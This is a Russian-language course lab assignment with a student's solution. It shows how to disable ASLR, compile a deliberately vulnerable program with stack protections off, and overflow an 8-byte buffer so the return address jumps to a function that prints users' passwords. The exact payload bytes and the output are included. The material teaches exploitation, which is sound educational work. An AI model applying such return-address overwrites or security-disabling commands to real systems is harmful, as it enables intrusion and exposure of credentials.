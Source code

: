 # Задание 2. Перезапись адреса возврата.

Отключите ASLR следующей командой:

     echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

Скомпилируйте [stack-smash.c](./stack-smash.c) вот так (это отключает некоторые механизмы защиты):

     gcc -fno-stack-protector -z execstack -no-pie -g -o stack-smash stack-smash.c

Программа принимает на вход символы, записывает их в стековый буфер и ничего с ними не делает, выводя `Nothing happened`.

Но в ней есть интересная злоумышленнику функция, которая печатает содержимое базы пользователей, в том числе их пароли.

Злоумышленник может воспользоваться тем, что программист не проверяет, насколько много данных прислал злоумышленник и влезут ли они в буфер.

Если же они не влезут, то программа написана так, что начнут перезаписываться… сохранённые `rbp` и адрес возврата.

Злоумышленник может подавать на вход программе любые символы.

Если вам необходимо передать нулевые символы или символы с необычными кодами, вы можете использовать `echo` вот так:

     echo -n -e "\x11\x40\x00\x99" # четыре байта с кодами 11 40 0 и 99 (16-ричными)

## Задание 2

Попробуйте переписать адрес возврата так, чтобы вместо возвращения из `vulnerable` в `main` запустить функцию `print_users`.

Программа может аварийно завершиться, главное – чтобы функция отработала и вывела на экран список пользователей и их паролей.

![task2](https://gitlab.se.ifmo.ru/programming-languages/cse-programming-languages-fall-2023/main/-/raw/master/seminar-7/img/output.png)

Вы не можете переписывать программу, можете только подавать ей на вход разные данные.
Вы **можете** изучать скомпилированный файл с помощью `gdb`, запускать его, смотреть содержимое памяти.
Также можно пользоваться `objdump` или `readelf`, `nm` и любыми иными средствами для узнавания адреса `print_users`.
Не забывайте, что он может меняться после каждой перекомпиляции!

Также не забудьте, что в памяти многобайтовые числа, в том числе адреса, хранятся в соответствии с `Little Endian`.

## Решение

Находим адрес функции `print_users` (`nm` / `objdump` / `gdb`).

     nm -A stack-smash | grep print_users
     stack-smash:0000000000401146 T print_users

У меня это `0x401146`;
Помним о `Little Endian`.

**Буффер**: `buffer[8]` => можем переполнить и положить нужный адрес

**Нужный ввод**:

     echo -n -e "\x1\x2\x3\x4\x5\x6\x7\x8\x00\x00\x00\x00\x00\x00\x00\x00\x46\x11\x40" | ./stack-smash

**Вывод программы**:

```
Users:
Cat: Meowmeow
Skeletor: Nyarr
[1]    91216 done                                        echo -n -e  | 
       91217 illegal hardware instruction (core dumped)  ./a.out
```

Как видно, `print_users` была вызвана.

Задание выполнено! :sparkles:

